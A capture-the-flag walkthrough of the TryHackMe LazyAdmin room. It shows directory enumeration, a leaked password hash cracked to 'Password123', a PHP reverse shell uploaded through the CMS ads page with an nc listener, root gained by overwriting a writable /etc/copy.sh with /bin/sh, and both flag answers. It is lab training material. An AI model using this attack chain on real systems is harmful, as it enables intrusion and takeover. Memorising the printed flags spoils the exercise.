<h1>Welcome to another Walk Through.</h1>

The TryHackMe room is called [LazyAdmin](https://tryhackme.com/room/lazyadmin)



This room has only 2 questions and both are about finding the flags of *root* and *user* users.

Let us start:

## What is the user flag?

We can start as usual with `sudo nmap -sC -sV ip_of_VM` to see what ports are open;



We can see that port 22 and 80 are available. 

 
Let us check the url of apache server:



 
Next step is to enumerate the website. We will use gobuster or Dirb
 For this example I tried Dirb and used the following command: 

`dirb http://10.10.217.61 '/root/Desktop/Tools/wordlists/dirbuster/directory-list-2.3-medium.txt'`

 Well; 

Dirb it was taking toooooooooo long so I tried another tool gobuster:

`gobuster dir -u 10.10.217.61 -w '/root/Desktop/Tools/wordlists/dirbuster/directory-list-2.3-medium.txt'`

 


 We found there is one more directory: /content/
 After visiting it we get the following message.



Why not use gobuster again with the new path?

`gobuster dir -u 10.10.217.61/content/ -w '/root/Desktop/Tools/wordlists/dirbuster/directory-list-2.3-medium.txt'`



We found more directories, let us start checking them!

 One interesting directory is the `/inc`. If you open it you can see that there is a file name `mysql_backup`...



 You can open it with a basic text editor and look around for useful information. Looking into it at number **14** we can see some really strange table!

The important text is this:

`"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\`

Probably the admin user is called *manager* and the hash of his password is *42f749ade7f9e195bf475f37a44cafcb*.

The next step is try to find out if the hashed password can be found in any word list.

<h3>Crackstation to the rescue!</h3>

 

 We found the password of user *manager* and is *Password123* !!!

Now we can log in at the server at the url `http://ip/content/as`

 

**Success**

 Next step is to gain access with the help of a webshell or a reverse shell; We can achieve this in the *ads* page:

 

 If you are using the AttackBox there is already a webshell here 
`/usr/share/webshells/php/php-reverse-shell.php`

 Next step is to update the IP inside the shell with IP of the attack machine and copy paste the code to the server.

 

 Everything seems ok! 

 

 Time to run the netcat listener in our local machine!
`nc -nlvp 1234`
 Now just click on the reverse shell on your browser and ...

 We are in!
 

 With some luck we can find the flag we are looking for inside the `/user/itguy/user.txt`

 

 The flag is: `THM{63e5bce9271952aad1113b6f1ac28a07}`

# What is the root flag?

Now we are going to check if there is any way we can escalate the privileges of the logged user. 
We should use this command: `sudo -l`

 

We should check the perl file.

`#!/usr/bin/perl` 
`system("sh", "/etc/copy.sh");`

 This is really interesting let us check the accessibility of the file.

`ls -l /etc/copy.sh`

 So we can just change the file and then run it... YES! Now we create a simple script that will allow us to run everything as root. 
So in `/etc/copy` we will add this line "/bin/sh" with the following command:
`echo "/bin/sh" > /etc/copy.sh` 

 

Finally we can run the script and gain root privileges!

 

 And after all these trouble!

 

 The flag is: `THM{6637f41d0177b6f37cb20d775124699f}`

<h1>We are finished</h1>

 I hope you enjoyed the guide. If you have any suggestions please feel free to contact me!

